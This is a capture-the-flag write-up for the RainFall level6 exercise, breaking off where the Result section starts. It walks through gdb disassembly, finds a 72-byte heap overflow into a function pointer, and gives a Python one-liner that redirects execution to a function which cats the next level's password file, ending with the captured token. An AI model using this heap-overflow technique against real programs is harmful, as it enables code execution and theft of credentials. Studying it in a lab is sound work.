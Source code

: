# Preparations

Entering level6 home directory we see a level6 binary with sticky bit in access rights.
By objdumping the binary we see 3 functions: main, m and n:

	level6@RainFall:~$ objdump -D -M intel-mnemonic level6 > /tmp/dump

Why do we do objdump first? Maybe in this exercise a function exists but is not used so we need to see all the functions.

# Code writing

We start to work with gdb in Intel syntax (set disassembly-flavor intel):

	(gdb) disass main
    Dump of assembler code for function main:
       0x0804847c <+0>:	push   ebp
       0x0804847d <+1>:	mov    ebp,esp
       0x0804847f <+3>:	and    esp,0xfffffff0
       0x08048482 <+6>:	sub    esp,0x20
       0x08048485 <+9>:	mov    DWORD PTR [esp],0x40 			;argument for malloc
       0x0804848c <+16>:	call   0x8048350 <malloc@plt> 		;call malloc with arguments
       0x08048491 <+21>:	mov    DWORD PTR [esp+0x1c],eax 	;result of malloc to some value
       0x08048495 <+25>:	mov    DWORD PTR [esp],0x4  		;argument for malloc
       0x0804849c <+32>:	call   0x8048350 <malloc@plt>   	;call malloc with arguments
       0x080484a1 <+37>:	mov    DWORD PTR [esp+0x18],eax 	;result of malloc to some value
       0x080484a5 <+41>:	mov    edx,0x8048468 			;upload the beginning of the m function 
       0x080484aa <+46>:	mov    eax,DWORD PTR [esp+0x18] 	;something with variables, put address of m function to the variable
       0x080484ae <+50>:	mov    DWORD PTR [eax],edx 		;something with variables, put address of m function to the variable
       0x080484b0 <+52>:	mov    eax,DWORD PTR [ebp+0xc] 		;something with variables, argv is used
       0x080484b3 <+55>:	add    eax,0x4 				;something with variables, argv[1] is taken
       0x080484b6 <+58>:	mov    eax,DWORD PTR [eax] 		;arguments for strcpy
       0x080484b8 <+60>:	mov    edx,eax 				;arguments for strcpy
       0x080484ba <+62>:	mov    eax,DWORD PTR [esp+0x1c] 	;arguments for strcpy
       0x080484be <+66>:	mov    DWORD PTR [esp+0x4],edx 		;arguments for strcpy
       0x080484c2 <+70>:	mov    DWORD PTR [esp],eax 		;arguments for strcpy
       0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>   	;call strcpy with arguments
       0x080484ca <+78>:	mov    eax,DWORD PTR [esp+0x18] 	;something with variables, deal with variable that we used before
       0x080484ce <+82>:	mov    eax,DWORD PTR [eax] 		;prepare to call functions that is a variable
       0x080484d0 <+84>:	call   eax 				;call function that lies in a variable
       0x080484d2 <+86>:	leave
       0x080484d3 <+87>:	ret

Something new!\
Let's look at the m function:

	(gdb) disass m
    Dump of assembler code for function m:
       0x08048468 <+0>:	push   ebp
       0x08048469 <+1>:	mov    ebp,esp
       0x0804846b <+3>:	sub    esp,0x18
       0x0804846e <+6>:	mov    DWORD PTR [esp],0x80485d1 		;argument for puts
       0x08048475 <+13>:	call   0x8048360 <puts@plt> 		;call puts with arguments
       0x0804847a <+18>:	leave
       0x0804847b <+19>:	ret

Let's look at the n function:

	(gdb) disass n
    Dump of assembler code for function n:
       0x08048454 <+0>:	push   ebp
       0x08048455 <+1>:	mov    ebp,esp
       0x08048457 <+3>:	sub    esp,0x18
       0x0804845a <+6>:	mov    DWORD PTR [esp],0x80485b0 		;argument for system
       0x08048461 <+13>:	call   0x8048370 <system@plt>   	;call system with arguments
       0x08048466 <+18>:	leave
       0x08048467 <+19>:	ret

Let's see some insites by their addresses:

	Breakpoint 10, 0x080484d0 in main ()
    (gdb) p/x $eax
        $5 = 0x8048468
    (gdb) x/s 0x80485b0
        $6 = "/bin/cat /home/user/level7/.pass"
    (gdb) x/s 0x80485d1
        $7 = "Nope"

Here we call an `m` function in the end of `main`.\
All the strings, arguments and FILE streams are known now.

# Exploitation

If we just start the binary, we have:

    level6@RainFall:~$ ./level6 abc
        Nope

Instead of "Nope" we need to print a token. This we can do if we send `n` function instead of the `m` function.\
Let's see what we have:

    Breakpoint 11, 0x080484ca in main ()
    (gdb) x/20wx $esp+0x18
        0xbffff6e8:	**0x0804a050**	0x0804a008	0x080484e0	0x00000000
        0xbffff6f8:	0x00000000	0xb7e454d3	0x00000002	0xbffff794
        0xbffff708:	0xbffff7a0	0xb7fdc858	0x00000000	0xbffff71c
        0xbffff718:	0xbffff7a0	0x00000000	0x0804822c	0xb7fd0ff4
        0xbffff728:	0x00000000	0x00000000	0x00000000	0x6d746187
    (gdb) x/wx $esp+0x18
        0xbffff6e8:	0x0804a050
    (gdb) p/x *0x0804a050
        $9 = 0x8048468

One more time - that is the address of the `m` function.

    Breakpoint 10, 0x080484d0 in main ()
    (gdb) p/x $eax
        $5 = 0x8048468

Let's find argument sent to the `m` function (playing with arguments sent to the binary):

    (gdb) x/wx $esp+0x1c
        0xbffff6ec:	0x0804a008
    (gdb) p/s *0x0804a008
        $12 = 1094795585
    (gdb) p/x *0x0804a008
        $13 = 0x41414141
    (gdb) p/x *0x0804a008
        $14 = 0x41414141

Here are my 11 Аs
    
    (gdb) p/c *(0x0804a008 + 1)
    $32 = 65 'A'
    (gdb) p/c *(0x0804a008 + 2)
    $33 = 65 'A'
    (gdb) p/c *(0x0804a008 + 3)
    $34 = 65 'A'
    (gdb) p/c *(0x0804a008 + 4)
    $35 = 65 'A'
    (gdb) p/c *(0x0804a008 + 5)
    $36 = 65 'A'
    (gdb) p/c *(0x0804a008 + 6)
    $37 = 65 'A'
    (gdb) p/c *(0x0804a008 + 7)
    $38 = 65 'A'
    (gdb) p/c *(0x0804a008 + 8)
    $39 = 65 'A'
    (gdb) p/c *(0x0804a008 + 9)
    $40 = 65 'A'
    (gdb) p/c *(0x0804a008 + 10)
    $41 = 65 'A'
    (gdb) p/c *(0x0804a008 + 11)
    $42 = 0 '\000'

And that is where call to `m` function lies:

    (gdb) x/10wx 0x0804a008
        0x804a008:	0x41414141	0x41414141	0x00414141	0x00000000
        0x804a018:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a028:	0x00000000	0x00000000
    (gdb) x/20wx 0x0804a008
        0x804a008:	0x41414141	0x41414141	0x00414141	0x00000000
        0x804a018:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a028:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a038:	0x00000000	0x00000000	0x00000000	0x00000000
        0x804a048:	0x00000000	0x00000011	**0x08048468**	0x00000000

That is 72 bytes starting from the buffer beginning:

    (gdb) p/x 0x804a048 + 8
        $44 = 0x804a050
    (gdb) p 0x804a050 - 0x804a008
        $45 = 72

Now let's replace `m` address with `n` address that is 0x08048454 or \x54\x84\x04\x08 in little-endian by writing it over.\
We make:

    level6@RainFall:~$ ./level6 $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')
        f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d

# Result

    level6@R